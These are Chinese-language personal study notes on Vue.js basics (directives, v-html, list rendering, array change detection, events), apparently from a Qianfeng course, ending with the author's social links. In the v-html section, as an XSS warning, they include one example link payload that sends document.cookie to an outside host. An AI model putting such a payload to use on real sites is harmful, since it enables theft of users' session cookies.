 # 千锋Vue学习笔记

[TOC]

## 写在前面

- 封面 | 摘要 | 关键词

  ![首页](https://img-blog.csdnimg.cn/c944cb785bb946898ed1a018ad717104.jpeg)

  千锋Vue学习笔记

  ```
  Vue
  李英俊
  前端
  千锋
  ```

- 学习链接

- 感想 | 摘抄

- 学习时遇到的问题

- 直通车

- <span style="color: skyblue; font-weight: bold">PS：相关工程代码都在 Github 上</span>

## 1. 前言

1. Vue是通过拦截变量的get和set方法，来进行监听和更新的
2. `Object.defineProperty`有以下缺点：
   1. 无法监听es6的Set、Map变化
   2. 无法监听Class类型的数据
   3. 属性的新加或者删除也无法监听
   4. 数组元素的增加和删除也无法监听
3. `:src`、`:class`这样的写法的完整写法是：`v-bind:src`
4. 同理，事件 `@click`绑定的完整写法是：`v-on:click`

## 2. 模板语法

1. 插值

   1. 文本：`{{}}`

   2. 纯HTML

      ```
      v-html，放置XSS, CSRF(
      	(1) 前端过滤
      	(2) 后台转义(<> &lt; &gt;)
      	(3) 给cookie加上属性http
      )
      
      <a href=javascript:location.href='http://www.baidu.com?cookie='+document.cookie>click</a>
      ```

   3. 表达式

2. 指令：是带有 `v-` 前缀的特殊属性

   - `v-bind`：动态绑定属性
   - `v-if`：动态创建/删除
     - `v-else`
     - `v-else-if`
     - `template v-if`：包装元素template不会被创建
   - `v-show`：动态显示/隐藏
   - `v-on:click`：绑定事件
   - `v-for`：遍历
   - `v-model`：双向绑定表单

3. 缩写

   1. `v-bind:src`：`:src`
   2. `v-on:click`：`@click`

4. 关于vue数据对象新增拦截属性的解决方案

   - vue2：
     - `Vue.set(vm.classobj, "dd", true)`
     - `Vue.set(vm.styleobj, "fontSize", "30px")`
   - vue3: 支持动态增加属性的拦截
   - **动态切换这里可以用对象，也可以用数组，用数组的时候vue两个版本都正常**
   - 注意：如果是直接操作 `:style` 的形式，需要按照js的语法去设置css，即需要用驼峰命名法

5. template是一个包装元素，可以控制子元素的同生共死，同时不会影响dom结构

6. 列表渲染

   1. `v-for`（特殊 v-for=“n in 10”）

      1. in
      2. of

      没有区别

   2. key

      1. 跟踪每个节点的身份，从而重用和重新排序现有元素
      2. 理想的key值是每项都有的且唯一的id，data.id

   3. 数组更新检测

      1. 使用以下方法操作数组，可以检测变动
         - `push`
         - `pop`
         - `shift`
         - `unshift`
         - `splice`
         - `soft`
         - `reverse`
   
      2. 新数组替换旧数组
         - `filter`
         - `concat`
         - `slice`
         - `map`

      3. 不能检测以下变动的数组

         ```
         vm.items[indexOfItem] = newValue
         ```

         *解决*：
   
         - `Vue.set(example1.items, indexOfItem, newValue)`
         - splice
   
      4. 应用：显示过滤结果
   
   4. 事件处理
   
      1. 监听事件-直接触发代码
      2. 方法事件处理器-写函数名 handleClick
   
   5. vue 操作dom底层，虚拟dom
   
      ![在这里插入图片描述](https://img-blog.csdnimg.cn/2785ead09eab41e688201be7a350a6ae.png)
   
      ![在这里插入图片描述](https://img-blog.csdnimg.cn/3ab4b9b9db954230a111a3118a7ea8f8.png)
   
   6. change和input的区别
   
      - change只有在输入框失去焦点，且内容发生改变时，才会触发函数






























------


- :cloud: 我的CSDN：`https://blog.csdn.net/qq_21579045/`
- :snowflake: 我的博客园：`https://www.cnblogs.com/lyjun/`
- :sunny: 我的Github：`https://github.com/TinyHandsome/`
- :rainbow: 我的bilibili：`https://space.bilibili.com/8182822/`
- :avocado: 我的思否：`https://segmentfault.com/u/liyj/`
- :tomato: 我的知乎：`https://www.zhihu.com/people/lyjun_/`
- :potato: 我的豆瓣：`https://www.douban.com/people/lyjun_/`
- :penguin: 粉丝交流群：1060163543，神秘暗号：为干饭而来

碌碌谋生，谋其所爱。:ocean:              @李英俊小朋友
